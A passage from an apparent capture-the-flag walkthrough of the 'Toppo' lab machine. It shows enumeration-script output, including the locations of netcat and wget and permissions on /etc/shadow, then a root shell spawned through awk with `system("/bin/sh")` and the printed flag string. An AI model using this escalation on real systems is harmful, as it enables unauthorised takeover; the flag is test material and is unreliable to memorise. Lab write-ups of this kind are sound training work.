-rw-r--r-- 1 root root  115 Nov  8  2014 acpid.socket
-rw-r--r-- 1 root root  169 Sep 30  2014 atd.service

/lib/systemd/system/dbus.target.wants:
total 0
lrwxrwxrwx 1 root root 14 Nov 21  2016 dbus.socket -> ../dbus.socket

/lib/systemd/system/multi-user.target.wants:
total 0
lrwxrwxrwx 1 root root 15 Apr  8  2017 getty.target -> ../getty.target
lrwxrwxrwx 1 root root 33 Apr  8  2017 systemd-ask-password-wall.path -> ../systemd-ask-password-wall.path
lrwxrwxrwx 1 root root 25 Apr  8  2017 systemd-logind.service -> ../systemd-logind.service
lrwxrwxrwx 1 root root 39 Apr  8  2017 systemd-update-utmp-runlevel.service -> ../systemd-update-utmp-runlevel.service
lrwxrwxrwx 1 root root 32 Apr  8  2017 systemd-user-sessions.service -> ../systemd-user-sessions.service
lrwxrwxrwx 1 root root 15 Nov 21  2016 dbus.service -> ../dbus.service

/lib/systemd/system/sockets.target.wants:
total 0
lrwxrwxrwx 1 root root 31 Apr  8  2017 systemd-udevd-control.socket -> ../systemd-udevd-control.socket
lrwxrwxrwx 1 root root 30 Apr  8  2017 systemd-udevd-kernel.socket -> ../systemd-udevd-kernel.socket
lrwxrwxrwx 1 root root 25 Apr  8  2017 systemd-initctl.socket -> ../systemd-initctl.socket
lrwxrwxrwx 1 root root 34 Apr  8  2017 systemd-journald-dev-log.socket -> ../systemd-journald-dev-log.socket
lrwxrwxrwx 1 root root 26 Apr  8  2017 systemd-journald.socket -> ../systemd-journald.socket
lrwxrwxrwx 1 root root 27 Apr  8  2017 systemd-shutdownd.socket -> ../systemd-shutdownd.socket
lrwxrwxrwx 1 root root 14 Nov 21  2016 dbus.socket -> ../dbus.socket

/lib/systemd/system/apache2.service.d:
total 4.0K
-rw-r--r-- 1 root root 42 Mar 31 04:17 forking.conf

/lib/systemd/system/getty.target.wants:
total 0
lrwxrwxrwx 1 root root 23 Apr  8  2017 getty-static.service -> ../getty-static.service

/lib/systemd/system/graphical.target.wants:
total 0
lrwxrwxrwx 1 root root 39 Apr  8  2017 systemd-update-utmp-runlevel.service -> ../systemd-update-utmp-runlevel.service

/lib/systemd/system/local-fs.target.wants:
total 0
lrwxrwxrwx 1 root root 29 Apr  8  2017 systemd-remount-fs.service -> ../systemd-remount-fs.service

/lib/systemd/system/poweroff.target.wants:
total 0
lrwxrwxrwx 1 root root 39 Apr  8  2017 systemd-update-utmp-runlevel.service -> ../systemd-update-utmp-runlevel.service

/lib/systemd/system/reboot.target.wants:
total 0
lrwxrwxrwx 1 root root 39 Apr  8  2017 systemd-update-utmp-runlevel.service -> ../systemd-update-utmp-runlevel.service

/lib/systemd/system/rescue.target.wants:
total 0
lrwxrwxrwx 1 root root 39 Apr  8  2017 systemd-update-utmp-runlevel.service -> ../systemd-update-utmp-runlevel.service

/lib/systemd/system/runlevel1.target.wants:
total 0
lrwxrwxrwx 1 root root 39 Apr  8  2017 systemd-update-utmp-runlevel.service -> ../systemd-update-utmp-runlevel.service

/lib/systemd/system/runlevel2.target.wants:
total 0
lrwxrwxrwx 1 root root 39 Apr  8  2017 systemd-update-utmp-runlevel.service -> ../systemd-update-utmp-runlevel.service

/lib/systemd/system/runlevel3.target.wants:
total 0
lrwxrwxrwx 1 root root 39 Apr  8  2017 systemd-update-utmp-runlevel.service -> ../systemd-update-utmp-runlevel.service

/lib/systemd/system/runlevel4.target.wants:
total 0
lrwxrwxrwx 1 root root 39 Apr  8  2017 systemd-update-utmp-runlevel.service -> ../systemd-update-utmp-runlevel.service

/lib/systemd/system/runlevel5.target.wants:
total 0
lrwxrwxrwx 1 root root 39 Apr  8  2017 systemd-update-utmp-runlevel.service -> ../systemd-update-utmp-runlevel.service

/lib/systemd/system/sysinit.target.wants:
total 0
lrwxrwxrwx 1 root root 24 Apr  8  2017 systemd-udevd.service -> ../systemd-udevd.service
lrwxrwxrwx 1 root root 31 Apr  8  2017 systemd-udev-trigger.service -> ../systemd-udev-trigger.service
lrwxrwxrwx 1 root root 22 Apr  8  2017 udev-finish.service -> ../udev-finish.service
lrwxrwxrwx 1 root root 20 Apr  8  2017 cryptsetup.target -> ../cryptsetup.target
lrwxrwxrwx 1 root root 23 Apr  8  2017 debian-fixup.service -> ../debian-fixup.service
lrwxrwxrwx 1 root root 22 Apr  8  2017 dev-hugepages.mount -> ../dev-hugepages.mount
lrwxrwxrwx 1 root root 19 Apr  8  2017 dev-mqueue.mount -> ../dev-mqueue.mount
lrwxrwxrwx 1 root root 28 Apr  8  2017 kmod-static-nodes.service -> ../kmod-static-nodes.service
lrwxrwxrwx 1 root root 36 Apr  8  2017 proc-sys-fs-binfmt_misc.automount -> ../proc-sys-fs-binfmt_misc.automount
lrwxrwxrwx 1 root root 32 Apr  8  2017 sys-fs-fuse-connections.mount -> ../sys-fs-fuse-connections.mount
lrwxrwxrwx 1 root root 26 Apr  8  2017 sys-kernel-config.mount -> ../sys-kernel-config.mount
lrwxrwxrwx 1 root root 25 Apr  8  2017 sys-kernel-debug.mount -> ../sys-kernel-debug.mount
lrwxrwxrwx 1 root root 36 Apr  8  2017 systemd-ask-password-console.path -> ../systemd-ask-password-console.path
lrwxrwxrwx 1 root root 25 Apr  8  2017 systemd-binfmt.service -> ../systemd-binfmt.service
lrwxrwxrwx 1 root root 27 Apr  8  2017 systemd-journald.service -> ../systemd-journald.service
lrwxrwxrwx 1 root root 32 Apr  8  2017 systemd-journal-flush.service -> ../systemd-journal-flush.service
lrwxrwxrwx 1 root root 31 Apr  8  2017 systemd-modules-load.service -> ../systemd-modules-load.service
lrwxrwxrwx 1 root root 30 Apr  8  2017 systemd-random-seed.service -> ../systemd-random-seed.service
lrwxrwxrwx 1 root root 25 Apr  8  2017 systemd-sysctl.service -> ../systemd-sysctl.service
lrwxrwxrwx 1 root root 37 Apr  8  2017 systemd-tmpfiles-setup-dev.service -> ../systemd-tmpfiles-setup-dev.service
lrwxrwxrwx 1 root root 33 Apr  8  2017 systemd-tmpfiles-setup.service -> ../systemd-tmpfiles-setup.service
lrwxrwxrwx 1 root root 30 Apr  8  2017 systemd-update-utmp.service -> ../systemd-update-utmp.service

/lib/systemd/system/timers.target.wants:
total 0
lrwxrwxrwx 1 root root 31 Apr  8  2017 systemd-tmpfiles-clean.timer -> ../systemd-tmpfiles-clean.timer

/lib/systemd/system/networking.service.d:
total 4.0K
-rw-r--r-- 1 root root 84 Apr  8  2017 network-pre.conf

/lib/systemd/network:
total 12K
-rw-r--r-- 1 root root 368 Apr  8  2017 80-container-host0.network
-rw-r--r-- 1 root root 378 Apr  8  2017 80-container-ve.network
-rw-r--r-- 1 root root  73 Apr  8  2017 99-default.link

/lib/systemd/system-generators:
total 412K
-rwxr-xr-x 1 root root 46K Apr  8  2017 systemd-cryptsetup-generator
-rwxr-xr-x 1 root root 30K Apr  8  2017 systemd-debug-generator
-rwxr-xr-x 1 root root 26K Apr  8  2017 systemd-default-display-manager-generator
-rwxr-xr-x 1 root root 50K Apr  8  2017 systemd-fstab-generator
-rwxr-xr-x 1 root root 30K Apr  8  2017 systemd-getty-generator
-rwxr-xr-x 1 root root 70K Apr  8  2017 systemd-gpt-auto-generator
-rwxr-xr-x 1 root root 34K Apr  8  2017 systemd-insserv-generator
-rwxr-xr-x 1 root root 26K Apr  8  2017 systemd-rc-local-generator
-rwxr-xr-x 1 root root 26K Apr  8  2017 systemd-system-update-generator
-rwxr-xr-x 1 root root 54K Apr  8  2017 systemd-sysv-generator

/lib/systemd/system-preset:
total 4.0K
-rw-r--r-- 1 root root 872 Apr  8  2017 90-systemd.preset

/lib/systemd/system-shutdown:
total 0

/lib/systemd/system-sleep:
total 0


### SOFTWARE #############################################
[-] Apache user configuration:
APACHE_RUN_USER=www-data
APACHE_RUN_GROUP=www-data


### INTERESTING FILES ####################################
[-] Useful file locations:
/bin/nc
/bin/netcat
/usr/bin/wget


[-] Can we read/write sensitive files:
-rw-r--r-- 1 root root 1512 Apr 15 10:08 /etc/passwd
-rw-r--r-- 1 root root 759 Apr 15 10:08 /etc/group
-rw-r--r-- 1 root root 761 Oct 22  2014 /etc/profile
-rw-r----- 1 root shadow 998 Apr 15 12:26 /etc/shadow


[-] Can't search *.conf files as no keyword was entered

[-] Can't search *.php files as no keyword was entered

[-] Can't search *.log files as no keyword was entered

[-] Can't search *.ini files as no keyword was entered

[-] All *.conf files in /etc (recursive 1 level):
-rw-r--r-- 1 root root 191 Sep  7  2014 /etc/libaudit.conf
-rw-r--r-- 1 root root 2084 Mar  6  2015 /etc/sysctl.conf
-rw-r--r-- 1 root root 62 Aug  4 13:00 /etc/resolv.conf
-rw-r--r-- 1 root root 2584 Feb  7  2014 /etc/gai.conf
-rw-r--r-- 1 root root 599 Feb 19  2009 /etc/logrotate.conf
-rw-r--r-- 1 root root 206 Aug 12  2014 /etc/idmapd.conf
-rw-r--r-- 1 root root 2969 Jun 17  2017 /etc/debconf.conf
-rw-r--r-- 1 root root 2981 Apr 15 10:01 /etc/adduser.conf
-rw-r--r-- 1 root root 859 Nov 23  2012 /etc/insserv.conf
-rw-r--r-- 1 root root 34 Apr  9  2017 /etc/ld.so.conf
-rw-r--r-- 1 root root 604 May 15  2012 /etc/deluser.conf
-rw-r--r-- 1 root root 497 May  4  2014 /etc/nsswitch.conf
-rw-r--r-- 1 root root 144 Apr 15 10:08 /etc/kernel-img.conf
-rw-r--r-- 1 root root 956 Dec 27  2016 /etc/mke2fs.conf
-rw-r--r-- 1 root root 7727 Apr 15 10:07 /etc/ca-certificates.conf
-rw-r--r-- 1 root root 552 Nov 12  2016 /etc/pam.conf
-rw-r--r-- 1 root root 279 Jun 13  2013 /etc/updatedb.conf
-rw-r--r-- 1 root root 9 Aug  7  2006 /etc/host.conf
-rw-r--r-- 1 root root 1260 May 26  2014 /etc/ucf.conf
-rw-r--r-- 1 root root 2632 Dec 14  2015 /etc/rsyslog.conf
-rw-r--r-- 1 root root 346 Sep  1  2014 /etc/discover-modprobe.conf
-rw-r--r-- 1 root root 3173 Jan  4  2015 /etc/reportbug.conf


[-] Current user's history files:
-rw------- 1 ted ted 1 Apr 15 12:33 /home/ted/.bash_history


[-] Location and contents (if accessible) of .bash_history file(s):
/home/ted/.bash_history


[-] Any interesting mail in /var/mail:
total 8
drwxrwsr-x  2 root mail 4096 Apr 15 10:01 .
drwxr-xr-x 12 root root 4096 Apr 15 10:06 ..


### SCAN COMPLETE ####################################
ted@Toppo:~$
```

###### Become root

```sh
ted@Toppo:~$ cat /etc/sudoers
ted ALL=(ALL) NOPASSWD: /usr/bin/awk

ted@Toppo:~$
```

```sh
ted@Toppo:~$ which nc
/bin/nc
ted@Toppo:~$
```

```sh
ted@Toppo:~$ awk 'BEGIN {system("/bin/sh")}'
# id
uid=1000(ted) gid=1000(ted) euid=0(root) groups=1000(ted),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),114(bluetooth)
# cd /root
# ls
flag.txt
# cat flag.txt
_________
|  _   _  |
|_/ | | \_|.--.   _ .--.   _ .--.    .--.
    | |  / .'`\ \[ '/'`\ \[ '/'`\ \/ .'`\ \
   _| |_ | \__. | | \__/ | | \__/ || \__. |
  |_____| '.__.'  | ;.__/  | ;.__/  '.__.'
                 [__|     [__|


Congratulations ! there is your flag : 0wnedlab{p4ssi0n_c0me_with_pract1ce}


#
```